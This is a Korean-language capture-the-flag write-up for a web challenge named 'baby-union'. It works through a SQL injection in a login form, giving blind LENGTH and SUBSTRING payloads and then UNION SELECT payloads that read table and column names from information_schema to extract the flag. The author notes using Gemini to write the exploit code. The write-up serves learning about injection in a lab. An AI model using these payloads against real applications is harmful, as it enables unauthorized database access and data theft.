

# ( Web | baby-union )

### 문제 설명

로그인 시 계정의 정보가 출력되는 웹 서비스입니다.

SQL INJECTION 취약점을 통해 플래그를 획득하세요. 문제에서 주어진 `init.sql` 파일의 테이블명과 컬럼명은 실제 이름과 다릅니다.

플래그 형식은 `DH{...}` 입니다.

[init.sql](init.sql)

[문제 소스 코드](app.py)

문제 소스 코드

# Writeup

---

## Source Code Reading

## Attack Scenario



- init.sql 데이터를 바탕으로 `uid : admin, upw : apple`로 로그인
- admin으로 로그인 했으나 크게 달라지는 것 없음


- init.sql의 `fake_table_name` 테이블의 각 column에 flag를 나눠서 넣는 것을 볼 수 있음
⇒ table name과 column name을 알아내고 값 출력 시키는 것이 목표


- 제미나이를 이용해 글자 수 알아내는 exploit code 작성


```sql
admin' AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=database() AND table_name != 'users' LIMIT 0, 1)) = {i} #
```

- table명이 ‘users’가 아닌 테이블의 길이 수를 알아내는 payload
- `LENGTH()` 사용


- 제미나이를 이용해 무차별 대입 exploit code 작성


```sql
admin' AND SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() AND table_name != 'users' LIMIT 0, 1), {pos}, 1) = '{ch}' #
```

- `SUBSTRING()` 을 이용하여 일치하는지 확인
- 위와 마찬가지로 users가 아닌 table만 확인함
- `{pos}`는 몇 번째 글자인 지, `{ch}`는 대입하는 문자

** 또 무차별 대입을 해 보려다가 찾아보니 union으로 column 출력 가능할 거 같음


```sql
abcde' UNION SELECT 1, column_name, 3, 4 FROM information_schema.columns WHERE table_name='onlyflag' #
```

- `abcde’`  : 결과 없음 상태를 유도하여 UNION문 결과만 출력
- `UNION`  : 두 쿼리의 결과를 하나로 합침
- `SELECT 1, column_name, 3, 4` : 이 문제의 쿼리가 컬럼 4개를 사용함 → 에러 방지를 위해 1, 3, 4라는 더미 값 사용
    - `column_name` : column명을 출력
- `FROM information_schema.column` : MY SQL의 모든 테이블 & 컬럼 정보가 들어있는 곳을 선택
- `WHERE table_name='onlyflag'` : 우리가 보고자 하는 onlyflag의 컬럼만 가져옴
- `#` : 원래 있던 쿼리문의 뒷부분을 삭제 (주석 처리)


```sql
abcde' UNION SELECT sname, svalue, sflag, sclose FROM onlyflag #
```

- `SELECT sname, svalue, sflag, sclose` : 위에서 찾은 컬럼을 선택하여 출력


```sql
abcde' UNION SELECT svalue, sflag, sname, sclose FROM onlyflag #
```

- 값은 3개까지 밖에 출력이 안 됨, 시작과 끝이 나오고 중간이 안 나왔기에 `sflag` 가 출력이 안 됐다고 생각
⇒ 필요없는 sname과 sflag의 자리 체인지 후 실행